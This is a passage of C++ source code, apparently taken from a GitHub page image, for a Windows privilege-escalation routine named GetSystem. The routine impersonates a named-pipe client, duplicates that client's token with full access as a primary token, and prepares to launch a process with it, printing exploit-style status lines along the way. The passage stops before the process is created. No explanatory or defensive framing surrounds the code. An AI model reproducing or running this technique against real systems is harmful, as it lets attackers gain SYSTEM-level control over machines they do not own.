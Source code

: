 ```c++
void GetSystem(HANDLE hNamedPipe, LPWSTR lpCommandLine)
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    HANDLE hProcess;
    HANDLE hToken = NULL;
    HANDLE phNewToken = NULL;

    DWORD dwCreationFlags = 0;
    LPWSTR lpCurrentDirectory = NULL;
    LPVOID lpEnvironment = NULL;

    // clear a block of memory
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    if (ImpersonateNamedPipeClient(hNamedPipe))
    {
        printf("[+] ImpersonateNamedPipeClient OK.\n");
    }
    else
    {
        printf("[-] ImpersonateNamedPipeClient() Error: %i.\n", GetLastError());
        goto cleanup;
    }

    if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken))
    {
        printf("[+] OpenThreadToken OK.\n");
    }
    else
    {
        printf("[-] OpenThreadToken() Error: %i.\n", GetLastError());
        goto cleanup;
    }

    if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &phNewToken))
    {
        printf("[+] DuplicateTokenEx OK.\n");
    }
    else
    {
        printf("[-] DupicateTokenEx() Error: %i.\n", GetLastError());
        goto cleanup;
    }

    dwCreationFlags = CREATE_UNICODE_ENVIRONMENT;
    dwCreationFlags |= g_bInteractWithConsole ? 0 : CREATE_NEW_CONSOLE;

    if (!(lpCurrentDirectory = (LPWSTR)malloc(MAX_PATH * sizeof(WCHAR))))
    {
        goto cleanup;
    }

    if (!GetSystemDirectory(lpCurrentDirectory, MAX_PATH))
    {
        printf("[-] GetSystemDirectory() Error: %i.\n", GetLastError());
        goto cleanup;
    }

```